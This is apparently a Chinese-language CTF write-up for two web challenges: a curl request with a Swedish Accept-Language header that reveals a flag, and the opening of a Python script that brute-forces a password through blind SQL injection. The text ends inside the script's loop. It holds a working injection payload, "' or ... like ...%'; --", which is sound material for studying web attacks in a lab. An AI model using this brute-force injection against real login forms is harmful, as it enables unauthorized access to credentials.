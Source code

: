 提交两个参数username和password，回显*YOU LIED TO ME !!!*

————然后没然后了 我还没看完 环境就关了TAT

## Web/Curly Fries 1

> Normal fries are nice, but everything's better with a curl in it. The flag is right in front of you.

![image-20211004170846442](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211004170846442.png)

emmmmm 没有任何提示

看wp以后发现这是真脑洞了，但也不能这么说，毕竟已经给出了Sweden很明显的提示，我们需要用指定的Swedish语言来访问这个网站

```bash
curl -i http://very.uniquename.xyz:8880/ -H "Accept-Language: sv-SE"
```

![image-20211004171513900](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211004171513900.png)

`dsc{1_l0v3_sw3d3n}`

## Web/The Gate Keeper

> That what you want is with the Gate keeper, but you need to cheat the Gate keeper to get it.
>
> **Note:** This challenge might require a bruteforce approach.

![image-20211004171755317](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211004171755317.png)

还是sqli

```python
import requests
import string

flag = ''

print(flag)

domain = string.ascii_lowercase + string.ascii_uppercase + string.digits + '_}'

f = 0

challenge = "gate keeper"
url = ""
check = ""
key = ""
column = ""
if challenge == "taxi union":
    url = 'http://extremely.uniquename.xyz:2052/'
    check = "TN-06-AP-9879"
    key = 'lisence_plate'
    column = "location"
elif challenge == 'gate keeper':
    url = 'http://extremely.uniquename.xyz:2082/'
    check = "The flag for the CTF is the password you entered.(If you havent cheated that is)"
    key = 'password'
    column = "password"

print("URL", url)

while True:
    for char in domain:
        payload = "' or {} like '{}%'; --".format(column, flag + char)
```